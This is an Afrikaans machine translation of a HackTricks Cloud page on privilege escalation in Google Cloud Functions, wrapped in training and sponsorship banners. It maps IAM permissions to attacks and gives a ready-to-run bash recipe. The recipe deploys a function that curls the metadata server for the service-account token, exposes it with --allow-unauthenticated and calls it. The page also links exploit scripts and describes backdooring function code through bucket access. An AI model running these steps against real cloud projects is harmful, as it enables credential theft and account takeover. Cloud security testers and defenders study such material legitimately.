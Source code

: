 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Meer inligting oor Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **'n nuwe Cloud Function met arbitrêre (kwaadaardige) kode skep en dit aan 'n Diensrekening toewys**. Dan, lek die Diensrekening token uit die metadata om voorregte na dit te eskaleer.\
Sommige voorregte om die funksie te aktiveer mag benodig word.

Eksploitasieskripte vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) en [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) gevind word en die voorafgeboude .zip-lêer kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) gevind word.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **die kode van 'n Funksie wysig en selfs die diensrekening wat aangeheg is, wysig** met die doel om die token te ekfiltreer.

{% hint style="danger" %}
Om cloud functions te ontplooi, sal jy ook actAs-toestemmings oor die standaard rekenaar diensrekening of oor die diensrekening wat gebruik word om die beeld te bou, benodig.
{% endhint %}

Sommige ekstra voorregte soos `.call` toestemming vir weergawe 1 cloudfunctions of die rol `role/run.invoker` om die funksie te aktiveer mag benodig word.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
As jy die fout `Permission 'run.services.setIamPolicy' denied on resource...` kry, is dit omdat jy die `--allow-unauthenticated` param gebruik en jy nie genoeg toestemming daarvoor het nie.
{% endhint %}

Die eksploit-skrip vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Met hierdie toestemming kan jy 'n **ondertekende URL kry om 'n lêer na 'n funksiebucket op te laai (maar die kode van die funksie sal nie verander nie, jy moet dit steeds opdateer)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie regtig seker hoe nuttig net hierdie toestemming is vanuit 'n aanvaller se perspektief nie, maar dit is goed om te weet.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gee jouself enige van die vorige **`.update`** of **`.create`** voorregte om te eskaleer.

### `cloudfunctions.functions.update`

Slegs met **`cloudfunctions`** toestemmings, sonder **`iam.serviceAccounts.actAs`** sal jy **nie in staat wees om die funksie op te dateer NIE, DUS DIT IS NIE 'N GELDIGE PRIVESC NIE.**

### Lees & Skryf Toegang oor die emmer

As jy lees- en skryftoegang oor die emmer het, kan jy veranderinge in die kode monitor en wanneer 'n **opdatering in die emmer plaasvind, kan jy die nuwe kode met jou eie kode opdateer** sodat die nuwe weergawe van die Cloud Function met die ingediende backdoored kode uitgevoer sal word.

Jy kan meer oor die aanval nagaan in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

E however, jy kan dit nie gebruik om derdeparty Cloud Functions vooraf te kompromitteer nie, want as jy die emmer in jou rekening skep en dit openbare toestemmings gee sodat die eksterne projek daaroor kan skryf, kry jy die volgende fout:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
E however, dit kan gebruik word vir DoS-aanvalle.
{% endhint %}

### Lees & Skryf Toegang oor Artifact Registry

Wanneer 'n Cloud Function geskep word, word 'n nuwe docker beeld na die Artifact Registry van die projek gepush. Ek het probeer om die beeld met 'n nuwe een te wysig, en selfs die huidige beeld (en die `cache` beeld) te verwyder, en niks het verander nie, die cloud function het voortgegaan om te werk. Daarom, miskien **kan dit moontlik wees om 'n Race Condition aanval te misbruik** soos met die emmer om die docker houer wat uitgevoer sal word te verander, maar **net deur die gestoor beeld te wysig is dit nie moontlik om die Cloud Function te kompromitteer nie.**

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
